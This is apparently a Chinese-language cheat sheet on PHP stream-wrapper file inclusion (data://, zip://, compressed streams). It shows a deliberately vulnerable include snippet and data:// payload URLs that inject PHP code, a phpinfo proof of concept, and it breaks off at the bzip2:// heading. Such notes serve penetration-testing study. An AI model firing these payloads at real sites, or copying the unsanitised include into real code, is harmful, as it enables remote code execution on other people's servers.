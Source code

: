 ### data://

data:资源类型;编码,内容
数据流封装器
当allow_url_include 打开的时候，任意文件包含就会成为任意命令执行

> PHP.ini：
> data://协议必须双在on才能正常使用；
> allow_url_fopen ：on
> allow_url_include：on
> php 版本大于等于 php5.2

payload

```
$file.php
<?php  
$filename=$_GET["a"];  
include("$filename");  
?>
http://127.0.0.1/file.php?a=data://text/plain,<?php phpinfo()?>
or
http://127.0.0.1/file.php?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

### zip://, bzip2://, zlib://

> PHP.ini：
> zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；
> allow_url_fopen ：off/on
> allow_url_include：off/on

```
3个封装协议，都是直接打开压缩文件。
compress.zlib://file.gz - 处理的是 '.gz' 后缀的压缩包
compress.bzip2://file.bz2 - 处理的是 '.bz2' 后缀的压缩包
zip://archive.zip#dir/file.txt - 处理的是 '.zip' 后缀的压缩包里的文件
```

**注：zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。**

#### zip://

php 版本大于等于 php5.3.0

payload

```
zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]**
要用绝对路径+url编码#
```

#### bzip2://
